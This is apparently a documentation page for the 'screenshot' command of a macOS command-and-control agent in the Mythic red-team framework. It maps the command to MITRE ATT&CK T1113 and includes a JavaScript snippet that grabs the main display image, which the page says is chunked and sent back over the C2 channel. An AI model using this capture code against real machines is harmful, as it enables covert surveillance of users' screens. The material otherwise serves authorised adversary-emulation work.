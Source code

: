 +++
title = "screenshot"
chapter = false
weight = 100
hidden = false
+++

## Summary

Use the built-in CGDisplay API calls to capture the display and send it back over the C2 channel. 
- Needs Admin: False  
- Version: 1  
- Author: @its_a_feature_  

### Arguments

## Usage

```
screenshot
```

## MITRE ATT&CK Mapping

- T1113  
## Detailed Summary
This uses API calls to read the current screen the return it to Mythic. This doesn't currently capture _all_ screens though.
```JavaScript
let cgimage = $.CGDisplayCreateImage($.CGMainDisplayID());
if(cgimage.js === undefined) {
    cgimage = $.CFMakeCollectable(cgimage); // in case 10.15 is messing with the types again
}
if(cgimage.js === undefined){
  return {"user_output":"Failed to get image from display", "completed": true, "status": "error"};
}
let bitmapimagerep = $.NSBitmapImageRep.alloc.initWithCGImage(cgimage);
let capture = bitmapimagerep.representationUsingTypeProperties($.NSBitmapImageFileTypePNG, Ref());
```
The screencapture is chunked and sent back to Mythic.

>**NOTE** With 10.15, there are protections against this, so be careful

